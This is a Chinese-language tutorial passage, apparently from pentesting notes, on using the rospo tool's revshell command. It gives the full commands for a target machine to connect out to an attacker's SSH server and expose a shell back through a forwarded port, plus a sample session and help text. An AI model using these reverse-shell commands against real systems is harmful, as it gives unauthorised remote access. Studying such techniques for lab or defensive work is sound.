 

#### 反向 shell

rospo反向Shell的核心机制是：靶机首先主动连接至攻击机的SSH服务器，通过建立SSH隧道将攻击机上的指定端口远程转发到靶机本地。特别之处在于，`rospo revshell`命令会**自动完成两个关键操作**：既建立远程端口转发通道，又直接在靶机端启动本地SSH服务（无需额外部署其他SSH服务程序）。此时攻击机连接自身被转发的本地端口，即可通过加密隧道直接访问靶机自启动的SSH服务。



攻击机监听 2222 端口，开启 ssh 服务，密码为 111

```
rospo revshell root@10.12.0.100:2222 -i -A 111
```



靶机连接到攻击机 ssh 服务，开启远程端口转发（监听远程的 3333 端口），开启本地 ssh 服务，设置端口为 4444 （远程 3333 端口转发到本地 4444 端口），本地 ssh 服务密码为 222

```
rospo revshell root@10.12.0.100:2222 -r 127.0.0.1:3333 -i -p 111 -A 222 -P :4444
```



攻击机使用 ssh 连接到本地的 3333 端口，就可以连接到靶机的 ssh 服务。

```
root@xiaoshae:/opt# ssh root@127.0.0.1 -p 3333

 .---------------.
 | 🐸 rospo sshd |
 .---------------.

root@127.0.0.1's password: 
[root@linux1 ~]# 
```



命令示例

```
启动本地SSH守护进程并将其端口转发至远程主机

前置检查：
  1. 远程服务器公钥需存在于known_hosts文件中（使用insecure参数可禁用此验证）
     可通过'grabpubkey'命令显式获取公钥
  2. 您的身份凭证需在远程服务器授权（可通过keygen命令生成新凭证）
  3. 本地authorized_keys文件需已创建且包含至少一个密钥以支持反向连接
     此处可使用不同选项，请参考"-K"参数说明

用法：
  rospo revshell [user@]主机[:端口] [参数]

示例：

  # 在user@server的默认远程地址:2222启动反向shell
  $ rospo revshell user@server	

  # 在远程地址:6666启动反向shell，并拉取GitHub公钥
  $ rospo revshell -r :6666  -K http://github.com/[用户].keys user@server

参数：
  -T, --disable-auth                      禁用身份验证（允许客户端无认证连接）
  -b, --disable-banner                    禁用服务器横幅显示
  -h, --help                              显示帮助信息
  -i, --insecure                          禁用已知主机密钥验证（跳过known_hosts检查）
  -j, --jump-host string                  指定跳板机配置（可选）
  -k, --known-hosts string                known_hosts文件绝对路径（默认"/root/.ssh/known_hosts"）
  -p, --password string                   SSH客户端密码
  -r, --remote string                     远程shell监听端点（默认"127.0.0.1:2222"）
```